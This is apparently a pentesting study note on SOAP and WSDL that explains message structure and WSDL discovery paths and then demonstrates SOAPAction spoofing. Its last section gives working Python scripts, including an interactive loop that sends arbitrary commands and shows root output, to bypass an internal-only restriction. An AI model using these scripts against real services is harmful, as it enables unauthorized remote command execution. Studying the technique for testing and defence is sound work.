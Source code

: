 # SOAP
- [Overview](#overview)
- [WSDL](#wsdl)
- [SOAPaction Spoofing](#soapaction-spoofing)

## Overview
- SOAP (Simple Object Access Protocol) is a messaging protocol that lets programs (usually web services) send information back and forth over the internet.
- It’s like a digital envelope for sending structured information between computers.
- It mainly uses XML to format the data, and it works over many transport methods (like HTTP, SMTP, etc.).

- **Structure of a SOAP Message**
    - A SOAP message is just an XML file with specific parts:
        1. soap:Envelope (Required): Think of this as the outer wrapper or the envelope for your message.

        2. soap:Header (Optional): This is like writing “Urgent” or “Confidential” on the top of a letter. Used for extra info like authentication, tracking, or encryption instructions.

        3. soap:Body (Required): This is the main content of the message.It includes the function you’re calling and the parameters you’re sending.

        4. soap:Fault (Optional): If something goes wrong, this is where you’ll find the error message.


 
- Example SOAP Request & Response
    - Client sends a request:
    ```http
    POST /Quotation HTTP/1.0
    Content-Type: text/xml

    <SOAP-ENV:Envelope>
    <SOAP-ENV:Body>
        <GetQuotation>
        <QuotationsName>Microsoft</QuotationsName>
        </GetQuotation>
    </SOAP-ENV:Body>
    </SOAP-ENV:Envelope>
    ```
    - Server replies:
    ```xml
    <SOAP-ENV:Envelope>
    <SOAP-ENV:Body>
        <GetQuotationResponse>
        <Quotation>Here is the quotation</Quotation>
        </GetQuotationResponse>
    </SOAP-ENV:Body>
    </SOAP-ENV:Envelope>
    ```


## WSDL
- WSDL stands for Web Services Description Language.
- It is an XML-based document used to describe a web service.
- It tells clients:

    1. What services/functions are available.

    2. Where (URL) the service is located.

    3. How to call those services (input/output format, protocols).


- **Purpose of WSDL**
    - Acts like a contract between the service provider and client.

    - Helps tools (like SoapUI or Postman) automatically understand how to interact with the web service.

    - Especially useful for SOAP web services.

> [!WARNING]
> A web service's WSDL file should not always be accessible.

- **WSDL Structure**
    - `<definitions>` – Root element.

    - `<types>` – Data types used in the messages (like strings, numbers).

    - `<message>` – Describes input/output data for operations.

    - `<portType>` – Defines operations and their input/output messages.

    - `<binding>` – Specifies the protocol and data format (like SOAP).

    - `<service>` – Gives the actual URL/endpoint of the service.

- WSDL files can be found in many forms, such as `/example.wsdl`, `?wsdl`, `/example.disco`, `?disco` etc.

## SOAPAction Spoofing
- SOAP messages towards a SOAP service should include both the operation and the related parameters. 
- This operation resides in the first child element of the SOAP message's body. 
- If HTTP is the transport of choice, it is allowed to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify the operation within the SOAP body through this header without parsing any XML.
- If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to SOAPAction spoofing.



- We should pay attention to SOAPAction
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```
- Look at the parameters
```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
``` 

- If we have try to issue commands through this parameter:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
```bash
# We got this error
python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

- The same python script with SOAPaction spoofing attack (client_soapaction_spoofing.py):
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
- Changes
    - We specify LoginRequest in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
    - We specify the parameters of ExecuteCommand because we want to have the SOAP service execute a whoami command.
    - We specify the blocked operation (ExecuteCommand) in the SOAPAction header

- If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a whoami command.
- We can automate this process:
```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


# Result:
python3 automate.py
$ id
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>uid=0(root) gid=0(root) groups=0(root)\n</result></LoginResponse></soap:Body></soap:Envelope>'
$ 
```